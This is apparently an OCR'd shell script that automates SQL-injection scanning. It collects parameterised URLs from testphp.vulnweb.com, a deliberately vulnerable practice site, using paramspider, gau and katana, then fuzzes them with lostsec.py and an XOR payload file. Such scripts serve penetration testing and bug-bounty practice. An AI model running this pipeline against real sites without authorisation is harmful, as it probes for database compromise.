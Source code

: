 SQLI

# Define the payload file and the number of threads
PAYLOAD_FILE="payloads/xor.txt"

# Step 1: Use paramspider to find URLs and clean them
paramspider -d testphp.vulnweb.com -o urls.txt
cat urls.txt | sed 's/FUZZ//g' > final.txt

# Step 2: Run lostsec.py with the cleaned URLs
python3 lostsec.py -l final.txt -p $PAYLOAD_FILE -t $THREADS

# Step 3: Use gau to find URLs and filter
echo testphp.vulnweb.com | gau --mc 200 | urldedupe > urls.txt
cat urls.txt | grep -E ".php|.asp|.aspx|.cfm|.jsp" | grep '=' | sort > output.txt
cat output.txt | sed 's/=.*/=/' > final.txt

# Step 4: Run lostsec.py again with the filtered URLs
python3 lostsec.py -l final.txt -p $PAYLOAD_FILE -t $THREADS

# Step 5: Use katana to find URLs and filter
echo testphp.vulnweb.com | katana -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -f qurl | urldedupe > output.txt
katana -u http://testphp.vulnweb.com -d 5 | grep '=' | urldedupe | anew output.txt
cat output.txt | sed 's/=.*/=/' > final.txt
